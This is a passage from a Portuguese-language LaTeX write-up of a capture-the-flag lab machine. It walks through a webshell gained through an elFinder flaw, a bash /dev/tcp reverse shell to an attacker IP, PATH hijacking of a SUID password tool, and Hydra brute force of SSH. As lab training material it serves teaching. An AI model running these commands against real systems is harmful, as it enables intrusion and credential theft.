  \caption{\emph{Webshell} funcional: \texttt{SecSignal.php?c=id} retorna
  \texttt{uid=33(www-data)}.}
  \label{fig:webshell_id}
\end{figure}

\begin{becosemsaida}
\begin{itemize}[leftmargin=1.4em,itemsep=2pt,topsep=2pt]
  \item A primeira tentativa usou um \textbf{PNG} e não funcionou: a
        CVE-2019-9194 só é disparada em \textbf{JPEG}, pois é o \texttt{exiftran}
        (acionado por \emph{resize/rotate} em JPEG) que executa o nome do arquivo.
\end{itemize}
\end{becosemsaida}

\subsection{Reverse shell como www-data}
Com o \emph{listener} ativo, o \emph{webshell} dispara um \emph{reverse shell}.

\begin{lstlisting}[language=bash,caption={Reverse shell pelo webshell.}]
# Na maquina atacante:
nc -lvnp 1234
# Requisicao ao webshell:
curl "http://files.lookup.thm/elFinder/php/SecSignal.php?c=bash+-c+'bash+-i+>%26+/dev/tcp/<ATTACKER_IP>/1234+0>%261'"
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{reverse_shell.png}
  \caption{\emph{Reverse shell} como \texttt{www-data}; \texttt{/home/think/user.txt}
  ainda não é legível neste contexto.}
  \label{fig:reverse_shell}
\end{figure}

%============================= 2.6 MOV. LATERAL =================================
\section{Movimentação Lateral (www-data $\rightarrow$ think)}

\subsection{Enumeração local e SUID personalizado}
No \emph{home} de \texttt{think} há um \texttt{.passwords} (propriedade
\texttt{root:think}, ilegível por \texttt{www-data}). A busca por binários
\textbf{SUID} revela um executável fora do comum: \texttt{/usr/sbin/pwm}.

\begin{lstlisting}[language=bash,caption={Busca por binários SUID.}]
find / -perm -4000 -type f 2>/dev/null
# ... /usr/sbin/pwm ...
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{suid.png}
  \caption{Enumeração do \emph{home} de \texttt{think} e busca por SUID,
  destacando o binário personalizado \texttt{/usr/sbin/pwm}.}
  \label{fig:suid}
\end{figure}

\subsection{PATH hijacking do comando id}
Executado como \texttt{www-data}, o \texttt{pwm} usa a saída de \texttt{id} para
montar o caminho \texttt{/home/<user>/.passwords} --- e falha procurando
\texttt{/home/www-data/.passwords}. Coloca-se, então, um \texttt{id} falso em
\texttt{/tmp} (à frente no \texttt{PATH}) que finge ser \texttt{think}; assim o
\texttt{pwm} lê o \texttt{.passwords} de \texttt{think}, exibindo uma lista de
senhas candidatas.

\begin{lstlisting}[language=bash,caption={PATH hijacking para fazer o pwm ler .passwords de think.}]
echo -e '#!/bin/bash\necho "uid=1000(think) gid=1000(think) groups=1000(think)"' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm        # -> lista de senhas candidatas de think
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{jose_passwords.png}
  \caption{Após o \emph{PATH hijacking}, o \texttt{pwm} identifica
  \texttt{think} e despeja a lista de senhas candidatas.}
  \label{fig:jose_passwords}
\end{figure}

\begin{becosemsaida}
\begin{itemize}[leftmargin=1.4em,itemsep=2pt,topsep=2pt]
  \item Rodar o \texttt{pwm} direto como \texttt{www-data} falha
        (\emph{File /home/www-data/.passwords not found}): ele deriva o caminho de
        \texttt{id}. A correção é sequestrar o \texttt{PATH} para forjar a
        identidade de \texttt{think}.
  \item \cmd{sudo -l} como \texttt{www-data} pede senha e não ajuda; o vetor é o
        binário SUID.
\end{itemize}
\end{becosemsaida}

\subsection{Força bruta do SSH e flag de usuário}
A lista é salva localmente e usada como \emph{wordlist} contra o SSH de
\texttt{think}.

\begin{lstlisting}[language=bash,caption={Força bruta do SSH com a lista de candidatas.}]
hydra -l think -P think_password.txt ssh://<TARGET_IP>
# [22][ssh] login: think  password: <PASSWORD>
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{hydra_password_ssh.png}
  \caption{Hydra confirma a senha de \texttt{think} a partir das candidatas
  extraídas pelo \texttt{pwm}.}
  \label{fig:hydra_ssh}
\end{figure}

\begin{lstlisting}[language=bash,caption={Acesso SSH e flag de usuário.}]
ssh think@<TARGET_IP>
cat user.txt        # -> <FLAG>
\end{lstlisting}

\begin{figure}[H]
  \centering
